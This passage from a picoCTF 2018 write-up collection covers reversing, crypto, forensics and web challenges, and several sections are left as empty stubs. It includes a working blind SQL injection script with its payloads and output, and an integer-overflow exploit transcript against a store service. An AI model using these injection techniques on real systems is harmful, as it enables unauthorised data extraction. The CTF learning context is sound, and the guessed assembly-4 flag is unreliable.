You'll need to consult the file `clusters.png` to answer the following questions.


How many attackers created the malware in this dataset?
5
Correct!


In the following sample of files from the larger dataset, which file was made by the same attacker who made the file 628e79cf? Indicate your answer by entering that file's hash.
       hash  jmp_count  add_count
0  628e79cf       17.0       18.0
1  1f2c7915       18.0       60.0
2  6e7d554a       10.0       42.0
3  a55f572c       30.0       37.0
4  f118fcd7       36.0       13.0
5  97b1425e       35.0       30.0
6  a163e543       18.0       71.0
7  ebaf5ccd       11.0       18.0
8  9059414f       38.0       13.0
9  c30ea3fe       18.0       37.0
ebaf5ccd
Correct!


Great job. You've earned the flag: picoCTF{w4y_0ut_dea1794b}
```

I do not know how they got 5. I saw three peaks and one spurious point at 0, 0. I guessed until I got past the first one and then ebaf5ccd was the only thing remotely close in terms of jmp/adds.

**Flag**
```
picoCTF{w4y_0ut_dea1794b}
```

## Reversing 400: Radix's Terminal

**Challenge**
 Can you find the password to [Radix's login?](./writeupfiles/radix) You can also find the executable in /problems/radix-s-terminal_0_b6b476e9952f39511155a2e64fb75248?

**Solution**
Run strings on the binary and find the string:

```
cGljb0NURntiQXNFXzY0X2VOQ29EaU5nX2lTX0VBc1lfNDE3OTk0NTF9
```

The hint suggests base64 encoding, base64 decode this for the flag.

**Flag**

```
picoCTF{bAsE_64_eNCoDiNg_iS_EAsY_41799451}
```

## Reversing 400: assembly-3

**Challenge**

What does `asm3(0xf238999b,0xda0f9ac5,0xcc85310c)` return?

Submit the flag as a hexadecimal value (starting with '0x').

NOTE: Your submission for this question will NOT be in the normal flag format.
Source located in the directory at `/problems/assembly-3_2_504fe35f4236db611941d162e2abc6b9`.

```asm
.intel_syntax noprefix
.bits 32

.global asm3

asm3:
        push    ebp
        mov     ebp,esp
        mov     eax,0xb6
        xor     al,al
        mov     ah,BYTE PTR [ebp+0x8]
        sal     ax,0x10
        sub     al,BYTE PTR [ebp+0xf]
        add     ah,BYTE PTR [ebp+0xd]
        xor     ax,WORD PTR [ebp+0x12]
        mov     esp, ebp
        pop     ebp
        ret
```

**Solution**

We manually walk through the program:

```asm
.intel_syntax noprefix
.bits 32

.global asm3

# call: asm3(0xf238999b,    0xda0f9ac5,    0xcc85310c)
#            0xf2 38 99 9b  0xda 0f 9a c5  0xcc 85 31 0c
#   ebp+        b  a  9  8     f  e  d  c    13 12 11 10
# OR:
#         9b  99  38  f2  c5  9a  0f  da  0c  31  85  cc
#   ebp+  8   9   a   b   c   d   e   f   10  11  12  13

asm3:
        push    ebp
        mov     ebp,esp
        mov     eax,0xb6               ;
        xor     al,al                  ;
        mov     ah,BYTE PTR [ebp+0x8]  ; 0x9b
        sal     ax,0x10                ;
        sub     al,BYTE PTR [ebp+0xf]  ; 0xda
        add     ah,BYTE PTR [ebp+0xd]  ; 0x9a
        xor     ax,WORD PTR [ebp+0x12] ; 0xcc85
        mov     esp, ebp
        pop     ebp
        ret
```

We can try to do this by hand, but much easier to use [this emulator](http://carlosrafaelgn.com.br/asm86/). Since we cannot use that to calculate the values of `BYTE PTR [ebp+...]` we need to be careful how we're doing that by hand. Normally we see `DBL WORD PTR[ebp + 0x8/0xc/...]` which are nicely aligned, but this one includes access that is not aligned to integer boundaries. The numbers are stored in a little endian format in memory, so when we're accessing them we need to be careful about that.

The eax/ax/al/ah registers are as in [this documentation](https://wiki.skullsecurity.org/index.php?title=Registers).

```
       |-------------------|
32-bit |        eax        |
       |-------------------|
16-bit |         |   ax    |
       |-------------------|
 8-bit |    |    | ah | al |
       |-------------------|
```

We put the following program into the emulator and step through the program and keep an eye on the
value of eax (comments show value of eax at each step):

```asm
asm3:
        push    ebp
        mov     ebp,esp
        mov     eax,0xb6        ; eax = 0x000000B6
        xor     al,al           ; eax = 0x00000000
        mov     ah,0x9b         ; eax = 0x00009b00
        sal     ax,0x10         ; eax = 0x00000000
        sub     al,0xda         ; eax = 0x00000026
        add     ah,0x9a         ; eax = 0x00009a26
        xor     ax,0xcc85       ; eax = 0x000056a3
        mov     esp, ebp
        pop     ebp
        ret                     ; return eax
```

so final value is `0x56a3`, which is our flag

**Flag**
```
0x56a3
```

## Cryptography 400: eleCTRic

**Challenge**
 You came across a custom server that Dr Xernon's company eleCTRic Ltd uses. It seems to be storing some encrypted files. Can you get us the flag? Connect with nc 2018shell1.picoctf.com 56215. [Source.](./writeupfiles/eleCTRic.py)

**Solution**

**Flag**

## Web Exploitation 400: fancy-alive-monitoring

**Challenge**

One of my school mate developed an alive monitoring tool. Can you get a flag from http://2018shell1.picoctf.com:56517 ?

**Solution**

**Flag**
```

```


## General Skills 400: Store

**Challenge**

We started a little store, can you buy the flag? [Source.](./writeupfiles/store.c) Connect with 2018shell1.picoctf.com 5795.

**Solution**

Playing around with a local copy, trying to buy 1000000000 imitation flags
overflows and wraps around, giving you a very positive balance. Then you can
just buy the real flag.

```
Welcome to the Store App V1.0
World's Most Secure Purchasing App
[1] Check Account Balance
[2] Buy Stuff
[3] Exit
 Enter a menu selection
2
Current Auctions1
[1] I Can't Believe its not a Flag!
[2] Real Flag
Imitation Flags cost 1000 each, how many would you like?
1000000000
Your total cost is: -727379968
Your new balance: 727381068
Welcome to the Store App V1.0
World's Most Secure Purchasing App
[1] Check Account Balance
[2] Buy Stuff
[3] Exit
 Enter a menu selection
2
Current Auctions
[1] I Can't Believe its not a Flag!
[2] Real Flag
2
A genuine Flag costs 100000 dollars, and we only have 1 in stock
Enter 1 to purchase1
YOUR FLAG IS: picoCTF{numb3r3_4r3nt_s4f3_dbd42a50}
```

**Flag**
```
picoCTF{numb3r3_4r3nt_s4f3_dbd42a50}
```


## Web Exploitation 500: Secure Logon

**Challenge**

Uh oh, the login page is more secure... I think. http://2018shell1.picoctf.com:46026 (link).

[Source](writeupfiles/server_noflag.py)


```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash
import json
from hashlib import md5
from base64 import b64decode
from base64 import b64encode
from Crypto import Random
from Crypto.Cipher import AES

app = Flask(__name__)
app.secret_key = 'seed removed'
flag_value = 'flag removed'

BLOCK_SIZE = 16  # Bytes
pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * \
                chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)
unpad = lambda s: s[:-ord(s[len(s) - 1:])]


@app.route("/")
def main():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.form['user'] == 'admin':
        message = "I'm sorry the admin password is super secure. You're not getting in that way."
        category = 'danger'
        flash(message, category)
        return render_template('index.html')
    resp = make_response(redirect("/flag"))

    cookie = {}
    cookie['password'] = request.form['password']
    cookie['username'] = request.form['user']
    cookie['admin'] = 0
    print(cookie)
    cookie_data = json.dumps(cookie, sort_keys=True)
    encrypted = AESCipher(app.secret_key).encrypt(cookie_data)
    print(encrypted)
    resp.set_cookie('cookie', encrypted)
    return resp

@app.route('/logout')
def logout():
    resp = make_response(redirect("/"))
    resp.set_cookie('cookie', '', expires=0)
    return resp

@app.route('/flag', methods=['GET'])
def flag():
  try:
      encrypted = request.cookies['cookie']
  except KeyError:
      flash("Error: Please log-in again.")
      return redirect(url_for('main'))
  data = AESCipher(app.secret_key).decrypt(encrypted)
  data = json.loads(data)

  try:
     check = data['admin']
  except KeyError:
     check = 0
  if check == 1:
      return render_template('flag.html', value=flag_value)
  flash("Success: You logged in! Not sure you'll be able to see the flag though.", "success")
  return render_template('not-flag.html', cookie=data)

class AESCipher:
    """
    Usage:
        c = AESCipher('password').encrypt('message')
        m = AESCipher('password').decrypt(c)
    Tested under Python 3 and PyCrypto 2.6.1.
    """

    def __init__(self, key):
        self.key = md5(key.encode('utf8')).hexdigest()

    def encrypt(self, raw):
        raw = pad(raw)
        iv = Random.new().read(AES.block_size)
        cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return b64encode(iv + cipher.encrypt(raw))

    def decrypt(self, enc):
        enc = b64decode(enc)
        iv = enc[:16]
        cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return unpad(cipher.decrypt(enc[16:])).decode('utf8')

if __name__ == "__main__":
    app.run()
```


**Solution**

**Flag**
```

```

## Genral Skills 500: script me

Can you understand the language and answer the questions to retrieve the flag?

Connect to the service with `nc 2018shell1.picoctf.com 1542`

**Solution**

**Flag**
```

```

## Forensics 550: LoadSomeBits

**Challenge**

Can you find the flag encoded inside this image? You can also find the file in /problems/loadsomebits_1_5ccf71e5726692c713405bb17da5cb37 on the shell server.


**Solution**


```
r: 0100100001111000111111000001010000011101010001011001110010011101010111001100010010011101011110010000110100001001000111000
g: 0011001110111110101110000011111110110001101011110010101110101001000100011010111100101001101101010011001110110111001011100
b: 0010011100010001100101011010011110100100011101110110001110100010011001011001011100100100010101001010011001110100001001000
```

target:

```
picoCTF{ : 01110000 01101001 01100011 01101111 01000011 01010100 01000110 01111011
```
**Flag**
```

```

## Reversing 550: assembly-4

**Challenge**
Can you find the flag using the following [assembly source](./writeupfiles/comp.nasm)? WARNING: It is VERY long...

**Solution**

They give us enough to compile it, so, we just do that. Most online compilers
are x64 for some reason, so compiling locally is a bit easier:

```
$ nasm -f elf32 comp.nasm
$ gcc -m32 comp.o -o comp
$ ./comp
picoCTF{1_h0p3_y0u_c0mP1l3d_tH15_94698637933
```

There's some garbage at the end, just add a `}` and remove digits until it goes
through. I don't know when precisely it went through but it's something like
that.

**Flag**
```
picoCTF{1_h0p3_y0u_c0mP1l3d_tH15_94698637933
```


## Web Exploitation 600: Help Me Reset

**Challenge**

There is a website running at http://2018shell1.picoctf.com:54584 (link). We need to get into any user for a flag!

**Solution**

**Flag**
```

```


## Web Exploitation 650: A Simple Question

**Challenge**

There is a website running at http://2018shell1.picoctf.com:36052 (link). Try to see if you can answer its question.

**Solution**

we get a form looking for an answer


if we enter a value of `a` we are given the SQL statement constructed and message that we were wrong.


Let's see what happens when we enter `' or 'x'='x`


ok, so we get a different message if the query returns something, this we can use.
We can give an snwer like `' OR answer LIKE 'a%` to test if it starts with a letter a, and build up answer like that. Since this will takea while, we script it


```python
import requests
import string

url="http://2018shell1.picoctf.com:36052/answer2.php"
alphabet=string.printable.replace('%','').replace("'",'')
password=''

stop = False
while not stop:
    for c in alphabet:
        params = {'answer': "' OR answer LIKE '"+password+c+"%", 'debug': '1'}
        r = requests.post(url, data=params)

        if "so close" in r.text:
            password += c
            print("letter found! "+password)
            break
        elif "Wrong" not in r.text:
            stop = True
            print(r.text)
            break

print(password)

```

this outputs

```
letter found! 4
letter found! 41
letter found! 41a
letter found! 41an
letter found! 41and
letter found! 41ands
letter found! 41andsi
letter found! 41andsix
letter found! 41andsixs
letter found! 41andsixsi
letter found! 41andsixsix
letter found! 41andsixsixt
letter found! 41andsixsixth
letter found! 41andsixsixths
```

but now what..? this is not the flag, nor the answer to put in the form. Nor is `42`

turns out the query wasn't case sensitive, and the answer we are looking for is
`41AndSixSixths`. When we put that in the form we get the flag:

```
SQL query: SELECT * FROM answers WHERE answer='41AndSixSixths'

Perfect!

Your flag is: picoCTF{qu3stions_ar3_h4rd_d3850719}
```

**Flag**
```
picoCTF{qu3stions_ar3_h4rd_d3850719}
```

## Web Exploitation 800: LambDash 3

**Challenge**

C? Who uses that anymore. If we really want to be secure, we should all start learning lambda calculus. http://2018shell1.picoctf.com:43607 (link)

**Solution**

**Flag**
```

```

## General Skills 900: Dog or Frog


**Challenge**

Dressing up dogs are kinda the new thing, see if you can get this lovely girl ready for her costume party.

[Dog Or Frog](http://2018shell1.picoctf.com:18466/)

**Solution**

**Flag**
```

```
